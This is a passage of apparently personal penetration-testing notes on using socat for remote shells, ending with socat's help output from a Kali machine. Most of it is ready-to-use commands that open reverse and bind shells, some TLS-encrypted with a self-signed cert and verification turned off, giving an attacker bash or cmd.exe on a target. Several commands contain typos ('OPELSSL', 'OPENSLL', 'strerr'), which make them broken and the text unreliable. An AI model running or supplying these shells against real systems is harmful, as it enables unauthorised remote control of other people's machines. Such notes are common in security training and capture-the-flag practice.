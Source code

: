 merge the key and the cert:
`cat shell.key shell.crt > shell.pem`

#### Reverse shell - Listener on our machine

listen on our machine:
`socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`
`verify=0` don't validate that cert has been signed by recognized authority

connect with linux target:
`socat OPELSSL:<ip>:<port>,verify=0 EXEC:/bin/bash`

#### Bind shell - listener on target

listen on windows target:
`socat OPENSLL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
`verify=0` don't validate cert has been signed by recognized authority
`pipes` forces use of unix style io

connect with our machine:
`socat OPENSLL:<ip>:<port>,verify=0 -`


## More advanced listener for linux

Requires socat on both machines

listen on our machine:
`socat TCP-L:<port> FILE:'tty',raw,echo=0`
is much more stable and sets echo off

connect with linux target:
`socat TCP:<ip>:<port> EXEC:"bash -li",pty,strerr,sigint,setsid,sane`

#### With encryption

listen on our machine:
`socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 FILE:'tty',raw,echo=0`

connect with linux target:
`socat OPENSSL:<ip>:<port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`



### Help

```sh
┌──(kali㉿kali)-[~]
└─$ socat -h    
socat by Gerhard Rieger and contributors - see www.dest-unreach.org
Usage:
socat [options] <bi-address> <bi-address>
   options (general command line options):
      -V     print version and feature information to stdout, and exit
      -h|-?  print a help text describing command line options and addresses
      -hh    like -h, plus a list of all common address option names
      -hhh   like -hh, plus a list of all available address option names
      -d[ddd]        increase verbosity (use up to 4 times; 2 are recommended)
      -d0|1|2|3|4    set verbosity level (0: Errors; 4 all including Debug)
      -D     analyze file descriptors before loop
      --experimental enable experimental features
      --statistics   output transfer statistics on exit
      -ly[facility]  log to syslog, using facility (default is daemon)
      -lf<logfile>   log to file
      -ls            log to stderr (default if no other log)
      -lm[facility]  mixed log mode (stderr during initialization, then syslog)
      -lp<progname>  set the program name used for logging and vars
      -lu            use microseconds for logging timestamps
      -lh            add hostname to log messages
```